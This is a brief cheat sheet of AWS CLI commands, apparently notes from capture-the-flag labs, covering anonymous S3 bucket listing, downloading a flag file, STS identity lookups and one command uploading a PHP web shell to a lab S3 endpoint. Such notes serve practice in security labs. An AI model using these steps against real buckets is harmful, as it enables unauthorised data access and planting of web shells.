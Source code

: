 # AWS

List contents of a bucket

aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request

aws --endpoint=http://s3.thetoppers.htb s3 ls

List under specified bucket

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb



Upload PHP shell to S3 bucket

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb



Download via curl

aws s3 cp --no-sign-request

aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request



Get AWS account ID

aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile lab



Get AWS username

aws sts get-caller-identity --profile lab
